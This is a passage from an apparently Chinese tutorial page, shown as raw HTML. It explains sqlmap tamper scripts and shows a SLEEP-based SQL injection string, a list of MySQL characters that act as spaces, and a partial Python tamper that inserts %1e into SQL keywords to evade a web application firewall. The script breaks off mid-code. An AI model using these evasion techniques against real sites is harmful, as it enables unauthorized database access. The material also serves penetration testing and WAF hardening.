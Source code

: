&nbsp; &nbsp; &gt;&gt;&gt; tamper('1" AND SLEEP(5)#')
&nbsp; &nbsp; '1\\\\" AND SLEEP(5)#'
&nbsp; &nbsp; """</span>
&nbsp; &nbsp; <span class="hljs-keyword">return</span> payload.replace(<span class="hljs-string">"'"</span>, <span class="hljs-string">"\\'"</span>).replace(<span class="hljs-string">'"'</span>, <span class="hljs-string">'\\"'</span>)
</code></pre>
<p data-nodeid="53536">它主要由 3 个部分组成。</p>
<ul data-nodeid="53537">
<li data-nodeid="53538">
<p data-nodeid="53539"><strong data-nodeid="53816">priority</strong>：代表优先级，当使用多个脚本时可定义执行顺序。</p>
</li>
<li data-nodeid="53540">
<p data-nodeid="53541">dependencies：对依赖环境的声明，比如输出日志，可不写。</p>
</li>
<li data-nodeid="53542">
<p data-nodeid="53543">tamper：主函数。payload 代表 sqlmap 自带的测试语句；kwargs 代表请求参数，可以用来修改 http 头信息。<strong data-nodeid="53823">tamper 主要是对原生 payload 做一些替换处理，这是绕过 WAF 的关键点</strong>。</p>
</li>
</ul>
<p data-nodeid="53544">下面以某知名网站的 SQL 注入为例。常规的注入语句都被拦截了，后来在 fuzz 测试 WAF 时，发现使用一些特殊符号可以绕过 WAF（换行符也经常被用来绕过），而 MySQL 中有些特殊字符又相当于空格：</p>
<blockquote data-nodeid="53545">
<p data-nodeid="53546">%01, %02, %03, %04, %05, %06, %07, %08, %09, %0a, %0b, %0c, %0d, %0e, %0f, %10, %11, %12, %13, %14, %15, %16, %17, %18, %19, %1a, %1b, %1c, %1d, %1e, %1f, %20</p>
</blockquote>
<p data-nodeid="53547">我们尝试在每个 SQL 关键词中随机加个%1e。测试确认可绕过 WAF 后，接下来就是写 tamper 让 sqlmap 实现自动化绕过 WAF。</p>
<pre class="lang-python" data-nodeid="53548"><code data-language="python"><span class="hljs-keyword">import</span> re
<span class="hljs-keyword">from</span> lib.core.common <span class="hljs-keyword">import</span> randomRange
<span class="hljs-keyword">from</span> lib.core.data <span class="hljs-keyword">import</span> kb  <span class="hljs-comment"># kb 中存放着 sqlmap 的一些配置信息</span>
<span class="hljs-keyword">from</span> lib.core.enums <span class="hljs-keyword">import</span> PRIORITY
__priority__ = PRIORITY.LOW
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">tamper</span>(<span class="hljs-params">payload, **kwargs</span>):</span>
&nbsp; &nbsp; result = payload
&nbsp; &nbsp; <span class="hljs-keyword">if</span> payload:
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">for</span> match <span class="hljs-keyword">in</span> re.finditer(<span class="hljs-string">r"\b[A-Za-z_]+\b"</span>, payload):
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; word = match.group()
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">if</span> len(word) &lt; <span class="hljs-number">2</span>:
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">continue</span>
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">if</span> word.upper() <span class="hljs-keyword">in</span> kb.keywords:  <span class="hljs-comment"># 判断是否属于 SQL 关键词</span>
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; str = word[<span class="hljs-number">0</span>]
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> xrange(<span class="hljs-number">1</span>, len(word) - <span class="hljs-number">1</span>):
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; str += <span class="hljs-string">"%s%s"</span> % (<span class="hljs-string">"%1e"</span> <span class="hljs-keyword">if</span> randomRange(<span class="hljs-number">0</span>, <span class="hljs-number">1</span>) <span class="hljs-keyword">else</span> <span class="hljs-string">""</span>, word[i])
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; str += word[<span class="hljs-number">-1</span>]
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">if</span> <span class="hljs-string">"%1e"</span> <span class="hljs-keyword">not</span> <span class="hljs-keyword">in</span> str: